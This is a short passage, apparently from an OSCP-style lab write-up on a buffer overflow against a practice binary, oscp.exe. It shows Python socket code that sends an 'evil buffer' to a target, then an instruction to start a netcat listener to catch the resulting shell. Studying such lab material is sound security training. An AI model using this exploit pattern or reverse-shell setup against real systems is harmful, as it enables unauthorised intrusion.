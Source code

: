 ```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

And after re-opening and re-running `oscp.exe`, start a `netcat` listener on host machine and run the exploit:

```
nc -lvnp 9822
```
